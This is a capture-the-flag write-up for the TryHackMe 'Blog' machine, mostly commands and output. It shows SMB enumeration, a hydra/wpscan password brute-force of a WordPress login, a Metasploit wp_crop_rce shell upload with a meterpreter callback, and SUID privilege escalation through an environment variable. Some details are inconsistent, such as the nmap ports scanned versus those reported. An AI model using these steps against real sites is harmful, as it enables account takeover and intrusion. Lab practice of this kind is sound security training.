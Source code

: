 ```yaml
---
title: Blog - Medium THM # name your WU = Name - [Level] [Platform]
date: 2023-12-05 11:20:23 +/-0800 # configure the date same as the name of your file
categories: [writeup, tryhackme] # categories, First the parents than the child-category, 2 or 3 MAX !
writeup: :title # don't touch me!
permalink: /blog # / and the name
tags: [thm, medium, writeup, linux, wordpress] #TAG names always lowercase (a,b,c,d,e,f...)
---
```


- OS: Linux
- Difficulty: Medium
- Author: Talace

## **Scanning**
### Threader3000.py
```
Port 22 is open
Port 139 is open
Port 80 is open
Port 445 is open
```

### Nmap scan
```
nmap -p21,80 -sV -sC -T4 -Pn -oA 10.10.10.5 10.10.10.5

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open              Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## **Enumeration**
### SMB Enumeration with enum4linux & smbclient
```
enum4linux 10.10.15.175 -A

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
BillySMB        Disk      Billy's local SMB Share
IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
```

Now that we've found some shared folder, let's dig in it.
```
smbclient --no-pass //10.10.15.175/BillySMB

  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020
```

Found nothing interesting, let's go on the wordpress
## Exploit
### Brute force login page w/ hydra & wpscan
#### wpscan brute force attack login
```
wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt
```
#### (another way with hydra) Hydra brute force attack login
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"
```

now let's search for an exploit in metasploit
```
search WordPress 5.0.0

#  Name                            Disclosure Date  Rank       Check  Description
-  ----                            ---------------  ----       -----  -----------
0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
```

Perfect! Let's try it!
```
set LHOST 10.8.138.226
set RHOSTS 10.10.15.175
set USERNAME kwheel
set PASSWORD *********

run
```

Nice we get our meterpreter session!

## **Privilege escalation**
### Suid file

Found the file
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null\

-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

Ltrace it to see what's done in there
```
ltrace /usr/sbin/checker

getenv("admin")                                  = "1"
setuid(0)                                        = 0
system("/bin/bash")
```

Since we only need admin to be true and present in the env, let's export the value
```
export admin=1
```

And run it again!
```
/usr/sbin/checker
```

Got root!
Now let's find user.txt and root.txt, since we now the creator of this box is a player
```
find / -type f -name "user.txt"

/home/bjoel/user.txt
/media/usb/user.txt
```

And root.txt!
```
find / -type f -name "user.txt"


/root/root.txt
```
